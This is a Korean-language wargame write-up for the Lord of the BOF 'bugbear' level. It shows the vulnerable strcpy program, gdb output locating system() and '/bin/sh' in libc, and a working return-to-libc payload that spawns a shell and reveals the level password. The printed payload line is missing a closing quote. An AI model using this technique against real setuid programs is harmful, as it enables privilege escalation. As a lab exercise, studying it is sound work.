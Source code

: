 # bugbear

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack betrayed you!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

드디어 RTL 문제가 나왔다. 

write-up을 보면서 빠르게 RTL에 대해서 공부하도록 하자. 

RTL은 library에 있는 system함수에 /bin/sh를 인자로 주어 실행시키는 간단한 방법이다.(writeup이 없어도 간단했을까?)

그럼 system함수와 /bin/sh의 주소를 알아내야 할 것이다. 그러고 나면 생각보다 쉬울 것이다. 

그럼 먼저 system 함수의 위치를 얻어내는 방법을 알아보자. 

gdb로 열어 breakpoint를 main에 걸어주고 실행시킨 다음 print system(p system)을 이용하면 된다.

```assembly
[darkknight@localhost darkknight]$ cp bugbear aaaaaaa
[darkknight@localhost darkknight]$ gdb -q aaaaaaa
(gdb) b* main
Breakpoint 1 at 0x8048430
(gdb) p system
No symbol "system" in current context.
(gdb) print system
No symbol "system" in current context.
(gdb) r
Starting program: /home/darkknight/aaaaaaa

Breakpoint 1, 0x8048430 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
(gdb) q
```

system함수의 주소는 0x40058ae0이다. 이제 이 주소를 이용하여 /bin/sh의 주소도 알아 보자. 

여기서 코드를 하나 짜야하는데 모르는 부분이라 참고했다.`````

system에서 주소를 하나씩 증가시키면서 /bin/sh와 같아질 때까지 반복문을 돌리면 된다.

```c
[darkknight@localhost darkknight]$ cat find.c
#include <stdio.h>
#include <string.h>

int main(){
        long system=0x40058ae0;
        while(memcmp((void*)system, "/bin/sh", 8))
                system++;
        printf("%p\n", system);
}
[darkknight@localhost darkknight]$ gcc -o find find.c
[darkknight@localhost darkknight]$ ./find
0x400fbff9
```

/bin/sh의 주소는 0x400fbff9이다. 이제 이 두 값을 가지고 공격 코드를 작성한다.



buffer가 40이고 sfp가 4이므로 44bytes를 덥어주고 ret부분에 system함수를 실행시키기위해서 덥어준다. 

그 다음이 중요한데 함수 호출시 EBP+8부분을 첫번째 인자(argv[0])로 사용하기 때문에 4bytes를 덥어주고 

/bin/sh의 주소를 넘겨주도록 한다. 

```bash
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "\x90"*44+"\xe0\x8a\x05\x40+"\x90"*4+"\xf9\xbf\x0f\x40"'`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒@▒▒▒▒▒@
bash$ whoami
bugbear
bash$ my-pass
euid = 513
new divide
```

bugbear의 password는 new divide이다.

